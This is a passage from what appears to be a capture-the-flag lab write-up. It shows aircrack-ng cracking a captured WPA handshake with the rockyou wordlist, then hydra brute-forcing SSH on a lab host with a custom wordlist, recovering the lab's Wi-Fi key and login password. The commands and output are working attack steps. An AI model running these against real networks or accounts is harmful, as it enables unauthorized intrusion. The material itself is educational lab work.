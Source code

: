 Knowing the BSSID of the targeted network, we proceed to crack the key.

```bash
┌──(kali㉿kali)-[~]
└─$ aircrack-ng --bssid F4:EC:38:AB:A8:A9 -w /usr/share/wordlists/rockyou.txt captured.cap
Reading packets, please wait...
Opening captured.cap
Resetting EAPOL Handshake decoder state.
Resetting EAPOL Handshake decoder state.
Read 6498 packets.

1 potential targets


                               Aircrack-ng 1.7 

      [00:09:49] 8134433/14344392 keys tested (14002.66 k/s) 

      Time left: 7 minutes, 23 seconds                          56.71%

                        KEY FOUND! [ flightoficarus ]


      Master Key     : FA C9 FB 75 B7 7E DC 86 CC C0 D5 38 88 75 B8 5A 
                       88 3B 75 31 D9 C3 23 C8 68 3C DB FA 0F 67 3F 48 

      Transient Key  : 0C 5C 1C 84 60 FA 34 DE C0 4F 35 F6 4F 03 A2 0F 
                       8F 6F 5E 20 05 27 E1 73 E0 73 F5 F1 2D AF D1 17 
                       8B F8 27 C6 BE 23 E3 70 8A EF 4A CC CA 0B EE 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : AC 1A 73 84 FB BF 75 9C 86 CF 5B 5A F4 8A 4C 38
```

The key is found as `flightoficarus`. Trying to figure out how can we work with a BSSID and an access point key, we try to spray the SSH login with `hydra`. We can use already found keywords and make our own wordlist to brute force the SSH login.

```bash
──(kali㉿kali)-[~]
└─$ echo poseidon'\n'flightoficarus'\n'icarus'\n'prometheus'\n'Too_cl0se_to_th3_Sun > keywords     

┌──(kali㉿kali)-[~]
└─$ hydra -L keywords -P keywords ssh://10.129.124.136:2222                                    
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-15 07:02:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.124.136:2222/
[2222][ssh] host: 10.129.124.136   login: icarus   password: Too_cl0se_to_th3_Sun
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-15 07:02:57                                                                    
```
